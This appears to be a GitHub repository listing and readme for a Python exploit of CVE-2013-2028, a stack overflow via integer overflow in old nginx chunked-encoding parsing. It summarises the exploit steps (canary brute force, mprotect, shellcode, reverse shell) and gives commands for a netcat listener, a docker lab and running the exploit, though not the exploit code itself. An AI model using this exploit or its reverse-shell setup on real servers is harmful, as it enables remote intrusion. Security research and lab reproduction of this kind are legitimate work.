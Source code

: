 # CVE-2013-2028-Exploit

CVE-2013-2028 python exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/m4drat](https://github.com/m4drat) |
| Url      | [https://github.com/m4drat/CVE-2013-2028-Exploit](https://github.com/m4drat/CVE-2013-2028-Exploit)                                               |
| Stars    | 12                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* exploit* nginx* pwn

</details>

## Readme

# CVE-2013-2028 Exploit

## Vulnerability details

Vulnerable software: Nginx 1.3.9 < 1.4.0  
Commit with fix: <https://github.com/nginx/nginx/commit/4997de8005630664ab35f27140e2077e818b21a7>  

Vulnerability exists in function ngx_http_parse_chunked. This exploit triggers integer overflow in ngx_http_parse_chunked, and later using it overflows the stack to hijack control flow.

## Exploitation details

Actual exploit contains 4 steps:

1. Find value of the stack canary using byte-by-byte bruteforce
2. Calculate address of mprotect using value from rcx (points somewhere in lpthread). Call mprotect with appropriate arguments.
3. Copy shellcode to RWX memory location.
4. Jump to shellcode, and start reverse shell.

## How to reproduce

1. start listener on host system, for example using netcat: `nc -lvp 4345`
2. on virtual machine start docker: `sudo docker-compose up --build`
3. run exploit: `python2 exploit.py -ra 127.0.0.1 -rp 8081 -la <listener machine address> -lp <listener machine port>`
4. Let the exploit find actual value of the canary, and start reverse-shell.

![Demo](https://i.imgur.com/BGtGiiN.png?1)



## Get the content

```
git clone https://github.com/m4drat/CVE-2013-2028-Exploit
cd CVE-2013-2028-Exploit
```

{% embed url="https://github.com/m4drat/CVE-2013-2028-Exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/39669467?v=4" alt=""><figcaption><p>m4drat</p></figcaption></figure>
